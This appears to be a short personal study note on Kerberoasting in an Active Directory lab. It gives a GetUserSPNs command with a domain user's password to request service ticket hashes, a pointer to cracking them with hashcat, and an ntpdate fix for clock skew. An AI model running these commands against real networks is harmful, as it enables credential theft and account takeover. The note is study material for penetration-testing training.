

# Kerberaosting

## Overview

- takes advantage of Service accounts



## Usage

```bash
GetUsersSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 192.168.70.141 -request
```


- crack hash with [hashcat](C:\Users\felix\Documents\Notes\Hacking\ADDS\InitialAttackVectors\Hashes\Hashcat.md)

### Clock skew too great error

```bash
ntpdate <target ip>
```
